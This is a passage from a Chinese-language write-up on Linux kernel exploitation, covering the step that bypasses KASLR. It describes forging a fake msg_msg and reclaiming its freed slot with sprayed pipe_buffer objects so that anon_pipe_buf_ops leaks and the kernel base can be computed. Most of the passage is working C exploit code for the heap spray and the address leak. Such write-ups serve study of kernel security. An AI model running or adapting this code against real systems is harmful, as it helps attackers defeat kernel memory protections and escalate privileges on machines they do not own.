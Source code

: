 #### 3-3 绕过KASLR

**目标**：泄露内核基址。

**方法**：伪造fake辅助消息，`msg_msg->m_list->next == msg_msg->m_list->pre == fake辅助消息`；利用主消息2释放辅助消息，使用`pipefd`函数分配`pipe_buffer`结构体重新占据fake辅助消息堆块；通过读skb泄露`anon_pipe_buf_ops`地址，绕过KASLR。`pipe_buffer`结构体中ops成员指向全局变量`anon_pipe_buf_ops`。

为什么不用[tty_struct](https://elixir.bootlin.com/linux/v4.19.98/source/include/linux/tty.h#L283) 来泄露？

```c
  printf("[*] Freeing fake secondary messages...\n");
  free_skbuff(ss, secondary_buf, sizeof(secondary_buf));

  // Put kheap_addr at m_list_next & m_list_prev so that list_del() is possible.
  printf("[*] Spraying fake secondary messages...\n");
  memset(secondary_buf, 0, sizeof(secondary_buf));
  build_msg_msg((void *)secondary_buf, kheap_addr, kheap_addr, 0, 0);
  if (spray_skbuff(ss, secondary_buf, sizeof(secondary_buf)) < 0)
    goto err_rmid;

  printf("[*] Freeing sk_buff data buffer...\n");
  if (read_msg(msqid[fake_idx], &msg_fake, sizeof(msg_fake), MTYPE_FAKE) < 0)
    goto err_rmid;

  printf("[*] Spraying pipe_buffer objects...\n");
  for (int i = 0; i < NUM_PIPEFDS; i++) {
    if (pipe(pipefd[i]) < 0) {
      perror("[-] pipe");
      goto err_rmid;
    }
    // Write something to populate pipe_buffer.
    if (write(pipefd[i][1], "pwn", 3) < 0) {
      perror("[-] write");
      goto err_rmid;
    }
  }

  printf("[*] Leaking and freeing pipe_buffer object...\n");
  for (int i = 0; i < NUM_SOCKETS; i++) {
    for (int j = 0; j < NUM_SKBUFFS; j++) {
      if (read(ss[i][1], secondary_buf, sizeof(secondary_buf)) < 0) {
        perror("[-] read");
        goto err_rmid;
      }
      if (*(uint64_t *)&secondary_buf[0x10] != MTYPE_FAKE)
        pipe_buffer_ops = *(uint64_t *)&secondary_buf[0x10];
    }
  }

  kbase_addr = pipe_buffer_ops - ANON_PIPE_BUF_OPS;
  printf("[+] anon_pipe_buf_ops: %" PRIx64 "\n", pipe_buffer_ops);
  printf("[+] kbase_addr: %" PRIx64 "\n", kbase_addr);
```
